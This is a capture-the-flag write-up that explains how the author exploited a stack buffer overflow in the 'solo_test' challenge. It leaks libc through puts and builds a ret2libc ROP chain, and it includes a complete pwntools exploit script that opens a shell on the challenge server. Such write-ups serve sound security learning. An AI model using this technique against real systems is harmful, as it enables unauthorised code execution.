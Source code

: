 ```yaml
---
layout: post
title: ChristmasCTF - Binary Explotation
categories: [CTF, Writeup, Web]
---
```


The one binary exploitation problem I tackled this CTF was solo_test which was a 64 bit binary. The problem seemed to be a standard  problem yet it has been one of my first successful exploitations in competition and was a good learning experience.

### Pwn

#### Solo_test
```
Let's see if you are really solo :D  
Never lie!  
nc 115.68.235.72 1337  
  
Download
```

Running the file, we see this is a 64 bit executable which is not stripped.
```
solo_test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64  
.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a9dd8736aa73681b63582f4636fd2ee3c7581152, not stripped
```
Running checksec, we see that NX is enabled which means we cannot execute shellcode on the stack.
```
Arch: amd64-64-little  
RELRO: Partial RELRO  
Stack: No canary found  
NX: NX enabled  
PIE: No PIE (0x400000)
```

My first step is to open the program in Ghidra and look at the main function.
```c
  banner();
  pain1();
  pain2();
  pain3();
  pain4();
  pain5();
  solo();
```
Looking at the functions in the main function carefully, it seems like the functions which start with pain just need to be fulfilled by responding correctly to the question. Each of the pain functions wanted a specific answer by checking through a ` strncmp(local_88,some string,2);` 

I started my exploit script by answering all of these questions.
```python
def getRead():  
	r.recv()  
	r.sendline("Me")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
	r.sendline("CTF")  
	r.recv()  
	r.sendline("Never")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
	  
getRead()
```

After we successfully answer the questions, we reach the `solo()` function. 
```c
  undefined local_58 [80];
  
  puts("\nYou passed my solo test!");
  printf("Reward --> ");
  read(0,local_58,0x200);
  return;
```
It is clear in this function that we have a buffer overflow. More bytes are read into the local_58 buffer than is allocated for it. Just like normal, I used pwntools cyclic function to generate a string of length 512 and sent it to the binary. By attaching GDB, I could view the register values when it crashed. I grabbed the value in RSP which is used to calculate the offset in 64 bit binary exploitation and found the offset to be 88. As I've gone over how do this in a previous blogpost, I won't explain in detail how this is done.

Now we have a buffer overflow, how can we get a shell? We can achieve this through  a ROP Chain and using the system function found in libc and the string "/bin/sh" found in libc. The one problem we face is that we don't know what version of libc we are using. The challenge authors did not provide it. To overcome this, we can get a leak on a function in the GOT and search for our libc using a libc database. I chose the leak the puts function.

How do we leak the address of a function? We can call puts from the PLT and ask it to output the address of another function. This can be done using  a simple ropchain. To make things simpler, I loaded the ELF for processing by pwntools by doing `e = ELF("/solo_test")` Now, all I need to do to get the address of puts in the GOT which could be done using `e.got["puts"]`. 

If you are new to ROP Chaining, I recommend reading this article [here](http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html). My first payload uses a `pop rdi; ret;`  gadget to setup the arguments for the puts command. Unlike 32 bit in which arguments are put onto the stack, in 64 bit, arguments must be put in the correct register. After outputting the address of where puts was in the GOT, I returned to the `solo()` function in order to avoid segfaulting and so I could continue my exploit after I got a leak of libc. This is my complete first payload:
```python
payload = "A" * 88  
  
pop_rdi = p64(0x400b83)  
got_put = p64(e.got["puts"])  
plt_put = p64(e.plt["puts"])  
plt_main = p64(0x400660)  
  
payload += pop_rdi + got_put + plt_put + p64(0x4009f3)

r.sendline(payload)
```

By sending this to the remote server, I was able to get a leaked address. I then adjusted it and formatted it using the following.
```python
leaked_puts = u64(r.recvline().rstrip().ljust(8, "\x00"))  
print("Leaked libc address, puts: " + str(hex(leaked_puts)))
```

With a leaked address in hand, I used an [online libc database](https://libc.blukat.me/) to identify which version of libc the remote server was using. It found that libc 2.29 was being used. I then downloaded it and loaded it for use in pwntools by writing `libc = ELF("libc6_2.29-0ubuntu2_amd64.so")` 

After identifying the libc version, this was a standard ret2libc attack. First I calculated the libc base address.
```python
libc.address = leaked_puts - libc.sym["puts"]  
print("Address of libc: " + str(libc.address))
```

The final step was to craft a ropchain using the found system and binsh in libc. This was done very easily by using pwntools.
```python
system = p64(libc.sym["system"])  
binsh = p64(next(libc.search("/bin/sh")))  
print("System found at: " + str(hex(u64(system))) + " /bin/sh found at: " + str(hex(u64(binsh))))  
  
ret_gadget = p64(0x4005f1)  
  
payload = "A" * 88  
  
payload += ret_gadget + pop_rdi + binsh + system

r.sendline(payload)
```

One important note is that without the ret_gadget, my exploit would segfault. I believe this was due to a problem with the stack alignment. As I was working using the remote server and not a local copy of the binary, I wasn't able to truly identify the cause of the segfault. However, if you are working in 64 bit and seemingly randomly segfault, try adding a ret_gadget to fix 16 bit stack alignment.

Here is a complete copy of my exploit. Once executed, this gave a shell on the system. The last step was to find the flag in /home/solo_test/flag. 
```python
Windows Terminal

from pwn import *  
  
context.binary = "solo_test"  
context.terminal = ["tmux", "split", "-h"]  
  
#r = process("./solo_test")  
r = remote("115.68.235.72", 1337)  
e = ELF("./solo_test")  
libc = ELF("libc6_2.29-0ubuntu2_amd64.so")  
  
#gdb.attach(r)  
  
def getRead():  
	r.recv()  
	r.sendline("Me")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
	r.sendline("CTF")  
	r.recv()  
	r.sendline("Never")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
  
getRead()  
  
payload = "A" * 88  
  
pop_rdi = p64(0x400b83)  
got_put = p64(e.got["puts"])  
plt_put = p64(e.plt["puts"])  
plt_main = p64(0x400660)  
  
payload += pop_rdi + got_put + plt_put + p64(0x4009f3)  
  
r.sendline(payload)  
r.recv()  
  
leaked_puts = u64(r.recvline().rstrip().ljust(8, "\x00"))  
print("Leaked libc address, puts: " + str(hex(leaked_puts)))  
libc.address = leaked_puts - libc.sym["puts"]  
print("Address of libc: " + str(libc.address))  
  
system = p64(libc.sym["system"])  
binsh = p64(next(libc.search("/bin/sh")))  
print("System found at: " + str(hex(u64(system))) + " /bin/sh found at: " + str(hex(u64(binsh))))  
  
ret_gadget = p64(0x4005f1)  
  
payload = "A" * 88  
  
payload += ret_gadget + pop_rdi + binsh + system  
  
r.sendline(payload)  
  
r.interactive()
```

## Concluding thoughts on binary exploitation

This was my first time doing a ret2libc attack in competition. It was also my first time working to find out what version of libc a binary was using. It was great to be able to sucessfully exploit a program. I also learned the importance of stack alignment and the power of just adding a ret gadget. Overall, this CTF was a great learning experience. I hope to improve my binary exploitation skills and move from the stack towards the heap in the near future.
